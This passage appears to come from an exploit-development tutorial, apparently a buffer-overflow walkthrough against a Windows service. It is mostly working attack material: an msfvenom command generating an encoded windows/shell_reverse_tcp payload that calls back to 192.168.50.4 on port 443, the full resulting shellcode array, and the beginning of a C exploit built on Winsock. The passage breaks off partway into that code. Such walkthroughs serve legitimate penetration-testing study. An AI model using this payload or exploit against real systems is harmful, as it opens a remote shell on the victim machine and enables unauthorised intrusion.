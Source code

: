 ``` c
  "\xc8\xa8\x6b\xa6\x4a\x58\x14\x5d\x52\x29\x11\x19\xd4\xc2\x6b"
  "\x32\xb1\xe4\xd8\x33\x90";
```

Since bad characters are already listed in the Python exploit, we can generate our own payload with **msfvenom**, remembering to target the x86 platform and format it for C code:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
+ Results:
```
...
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] =
"\xdb\xcc\xbe\xa5\xcc\x28\x99\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x52\x31\x72\x17\x83\xc2\x04\x03\xd7\xdf\xca\x6c\xeb\x08\x88"
"\x8f\x13\xc9\xed\x06\xf6\xf8\x2d\x7c\x73\xaa\x9d\xf6\xd1\x47"
"\x55\x5a\xc1\xdc\x1b\x73\xe6\x55\x91\xa5\xc9\x66\x8a\x96\x48"
"\xe5\xd1\xca\xaa\xd4\x19\x1f\xab\x11\x47\xd2\xf9\xca\x03\x41"
"\xed\x7f\x59\x5a\x86\xcc\x4f\xda\x7b\x84\x6e\xcb\x2a\x9e\x28"
"\xcb\xcd\x73\x41\x42\xd5\x90\x6c\x1c\x6e\x62\x1a\x9f\xa6\xba"
"\xe3\x0c\x87\x72\x16\x4c\xc0\xb5\xc9\x3b\x38\xc6\x74\x3c\xff"
"\xb4\xa2\xc9\x1b\x1e\x20\x69\xc7\x9e\xe5\xec\x8c\xad\x42\x7a"
"\xca\xb1\x55\xaf\x61\xcd\xde\x4e\xa5\x47\xa4\x74\x61\x03\x7e"
"\x14\x30\xe9\xd1\x29\x22\x52\x8d\x8f\x29\x7f\xda\xbd\x70\xe8"
"\x2f\x8c\x8a\xe8\x27\x87\xf9\xda\xe8\x33\x95\x56\x60\x9a\x62"
"\x98\x5b\x5a\xfc\x67\x64\x9b\xd5\xa3\x30\xcb\x4d\x05\x39\x80"
"\x8d\xaa\xec\x07\xdd\x04\x5f\xe8\x8d\xe4\x0f\x80\xc7\xea\x70"
"\xb0\xe8\x20\x19\x5b\x13\xa3\xe6\x34\x29\x37\x8f\x46\x4d\x36"
"\xf4\xce\xab\x52\x1a\x87\x64\xcb\x83\x82\xfe\x6a\x4b\x19\x7b"
"\xac\xc7\xae\x7c\x63\x20\xda\x6e\x14\xc0\x91\xcc\xb3\xdf\x0f"
"\x78\x5f\x4d\xd4\x78\x16\x6e\x43\x2f\x7f\x40\x9a\xa5\x6d\xfb"
"\x34\xdb\x6f\x9d\x7f\x5f\xb4\x5e\x81\x5e\x39\xda\xa5\x70\x87"
"\xe3\xe1\x24\x57\xb2\xbf\x92\x11\x6c\x0e\x4c\xc8\xc3\xd8\x18"
"\x8d\x2f\xdb\x5e\x92\x65\xad\xbe\x23\xd0\xe8\xc1\x8c\xb4\xfc"
"\xba\xf0\x24\x02\x11\xb1\x45\xe1\xb3\xcc\xed\xbc\x56\x6d\x70"
"\x3f\x8d\xb2\x8d\xbc\x27\x4b\x6a\xdc\x42\x4e\x36\x5a\xbf\x22"
"\x27\x0f\xbf\x91\x48\x1a";
```

After completing the above-mentioned changes, our exploit code now appears as so:
``` c
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#define DEFAULT_BUFLEN 512

#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

DWORD SendRequest(char *request, int request_size) {
    WSADATA wsa;
    SOCKET s;
    struct sockaddr_in server;
    char recvbuf[DEFAULT_BUFLEN];
    int recvbuflen = DEFAULT_BUFLEN;
    int iResult;

    printf("\n[>] Initialising Winsock...\n");
    if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
```